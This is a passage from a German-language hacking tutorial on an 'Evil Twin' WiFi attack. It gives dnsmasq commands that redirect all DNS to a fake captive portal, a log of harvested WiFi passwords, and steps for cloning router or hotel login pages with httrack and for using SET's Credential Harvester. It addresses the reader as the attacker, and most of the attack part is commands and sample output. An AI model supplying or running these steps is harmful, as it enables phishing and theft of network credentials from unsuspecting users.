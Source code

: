 #### DNS Redirect zu Captive Portal

**Alle DNS-Anfragen → dein Webserver:**

```bash
# dnsmasq Config anpassen
cat >> /tmp/dnsmasq.conf << EOF
address=/#/192.168.10.1
EOF

# Restart dnsmasq
killall dnsmasq
dnsmasq -C /tmp/dnsmasq.conf -d
```

**Jetzt:**
- Client verbindet sich mit Evil Twin
- Öffnet Browser → jede Website geht zu login.html
- Gibt Credentials ein
- Du loggst sie in /tmp/harvested_credentials.txt

#### Credentials checken

```bash
tail -f /tmp/harvested_credentials.txt

# Output:
# 2024-01-01 12:34:56 | IP: 192.168.10.50 | SSID: MeinNetz | Password: SuperSecret123
# 2024-01-01 12:35:12 | IP: 192.168.10.51 | SSID: MeinNetz | Password: Password123
```

### Verbesserungen: Realistischere Captive Portals

**Clone echte Login-Seite:**

```bash
# Mit httrack (Website Cloner)
apt-get install httrack

# Clone z.B. Router-Login
httrack "http://192.168.1.1" -O /var/www/html/router_clone

# Oder Hotel-WiFi Portal, Airport-WiFi, etc.
```

**Oder nutze Social Engineering Toolkit (SET):**

```bash
# SET installieren (auf PC besser als Flipper)
apt-get install set

# Starte SET
setoolkit

# → Social-Engineering Attacks
# → Website Attack Vectors
# → Credential Harvester Attack Method
# → Site Cloner
# → Enter target URL
```

---